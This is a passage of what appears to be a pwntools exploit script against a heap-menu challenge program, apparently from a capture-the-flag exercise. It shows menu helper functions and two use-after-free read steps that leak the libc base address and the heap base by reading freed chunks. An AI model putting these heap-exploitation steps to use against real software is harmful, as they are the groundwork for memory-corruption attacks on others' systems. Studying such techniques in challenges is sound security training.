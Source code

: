 ```python
    if add_index_words:
        sh.sendlineafter(add_index_words, str(index))
    if add_size_words:
        sh.sendlineafter(add_size_words, str(size))
    if add_content_words:
        sh.sendafter(add_content_words, content)

def delete(index=-1):
    sh.sendlineafter(choice_words, str(menu_del))
    if del_index_words:
        sh.sendlineafter(del_index_words, str(index))

def show(index=-1):
    sh.sendlineafter(choice_words, str(menu_show))
    if show_index_words:
        sh.sendlineafter(show_index_words, str(index))

def edit(index=-1, size=-1, content=''):
    sh.sendlineafter(choice_words, str(menu_edit))
    if edit_index_words:
        sh.sendlineafter(edit_index_words, str(index))
    if edit_size_words:
        sh.sendlineafter(edit_size_words, str(size))
    if edit_content_words:
        sh.sendafter(edit_content_words, content)

def calloc(index=-1, size=-1, content=''):
    sh.sendlineafter(choice_words, str(2))
    if add_index_words:
        sh.sendlineafter(add_index_words, str(index))
    if add_size_words:
        sh.sendlineafter(add_size_words, str(size))
    if add_content_words:
        sh.sendafter(add_content_words, content)

def leak_info(name, addr):
    output_log = '{} => {}'.format(name, hex(addr))
    all_logs.append(output_log)
    success(output_log)

# 泄露libc地址并还原
add(index=0, size=0x500, content=b'aa')
add(index=1, size=0x10, content=b'zzz')
delete(index=0)
show(index=0)
libc_leak = u64(sh.recv(6).ljust(8, b'\x00'))
leak_info('libc_leak', libc_leak)
libc.address = libc_leak - 0x218cc0
leak_info('libc.address', libc.address)
add(index=0, size=0x500, content=b'aaa')


# 泄露heap地址并还原
add(index=0, size=0x20, content=b'aa')
delete(index=0)
show(index=0)
key = u64(sh.recv(5).ljust(8, b'\x00'))
leak_info('key', key)
heap_base = key << 12
leak_info('heap_base', heap_base)
add(index=0, size=0x20, content=b'aa')


```